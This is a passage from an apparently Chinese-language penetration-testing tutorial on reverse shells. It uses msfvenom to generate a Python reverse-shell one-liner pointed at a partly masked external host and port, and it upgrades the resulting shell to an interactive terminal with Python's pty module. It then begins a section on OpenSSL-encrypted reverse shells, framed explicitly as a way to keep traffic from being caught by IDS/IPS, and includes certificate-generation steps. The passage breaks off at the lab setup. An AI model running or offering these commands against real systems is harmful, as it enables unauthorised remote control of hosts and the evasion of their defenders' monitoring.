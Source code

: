 msfvenom -l payloads | grep 'cmd/unix/reverse'  
 

如上图所示，metasploit支持生成反弹shell一句话的类型非常丰富，大家可以依据渗透测试对象自行选择使用。比如，我们获取一个python反弹shell的一句话：

msfvenom -p cmd/unix/reverse_python LHOST=47.xxx.xxx.72 LPORT=2333 -f raw  
 

将生成的python反弹shell的一句话在目标主机上执行即可：

## 反弹shell后获取模拟终端

其实，上面所讲的各种方法获取的shell都不是一个标准的虚拟终端环境，它仅仅是一个标准输入。你会发现存在一个问题，就是即使我们获取了目标虚拟终端控制权限，但是往往会发现其交互性非常的差，回显信息与可交互性非常的差和不稳定，具体见情况有以下几个种。

- 获取的虚拟终端没有交互性，我们想给添加的账号设置密码或执行sudo等命令，无法完成。
- 标准的错误输出无法显示，无法正常使用vim等文本编辑器等。
- 获取的目标主机的虚拟终端使用非常不稳定，很容易断开连接。

这往往都是因为我们获取的shell并不是标准的虚拟终端，为了能够完成输入密码等操作，我们必须模拟一个真正的终端设备。

我们其实可以借助于python默认包含的一个pty标准库来获取一个标准的虚拟终端环境。Python在现在一般发行版Linux系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

我们只需在获取的shell里面输入如下命令，即可模拟一个终端设备：

python -c "import pty;pty.spawn('/bin/bash')"  
 

如上图所示，成功模拟在shell中出了一个终端设备，并成功执行了sudo等命令。

## 使用OpenSSL反弹加密shell

在上文中，我们总结了很多反弹shell得方法，但是我发现这种反弹 shell 方式都有一个缺点，那就是所有的流量都是明文传输的。这些通过shell通过传输的流量都可以被管理员直接抓取并理解，当目标主机网络环境存在网络防御检测系统时（IDS、IPS等），网络防御检测系统会获取到我们的通信内容并进行告警和阻止。因此，我们需要对通信的内容进行混淆或加密，这时可以选择使用 OpenSSL 反弹一个加密的 shell。

### OpenSSL 简介

在计算机网络上，OpenSSL 是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。

SSL协议要求建立在可靠的传输层协议(TCP)之上。SSL协议的优势在于它是与应用层协议独立无关的，高层的应用层协议(例如：HTTP，FTP，TELNET等)能透明地建立于SSL协议之上。SSL协议在应用层协议通信之前就已经完成加密算法、通信密钥的协商及服务器认证工作。在此之后应用层协议所传送的数据都会被加密，从而保证通信的私密性。

在利用 OpenSSL 反弹 shell 之前需要先生成自签名证书：

openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes  
 

生成自签名证书时会提示输入证书信息，如果懒得填写可以一路回车即可：

### 使用OpenSSL反弹加密shell

实验环境：Linux

目标机：

- 系统：Linux
- IP：192.168.1.8
